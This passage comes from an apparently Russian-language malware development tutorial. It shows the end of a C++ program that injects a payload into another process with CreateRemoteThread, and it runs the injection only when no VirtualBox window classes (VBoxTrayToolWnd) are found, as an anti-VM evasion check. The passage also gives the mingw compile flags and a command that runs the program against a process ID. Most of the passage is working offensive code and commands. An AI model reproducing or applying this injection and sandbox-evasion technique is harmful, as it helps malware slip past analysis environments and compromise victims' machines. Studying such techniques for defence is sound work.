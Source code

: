 ```cpp
    sizeof(my_payload), NULL);

    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);

    return 0;
  } else {
	printf("virtualbox VM detected :(");
    return -2;
  }
}
```

Как видно, мы просто проверяем, присутствуют ли в ОС окна с указанными именами классов:

```bash
VBoxTrayToolWndClass
VBoxTrayToolWnd
```

Компилируем:

```bash
x86_64-w64-mingw32-g++ hack2.cpp -o hack2.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![injection](./images/43/2022-03-15_17-36.png){width="80%"}    

Запускаем:   

```powershell
.\hack2.exe 1304
```
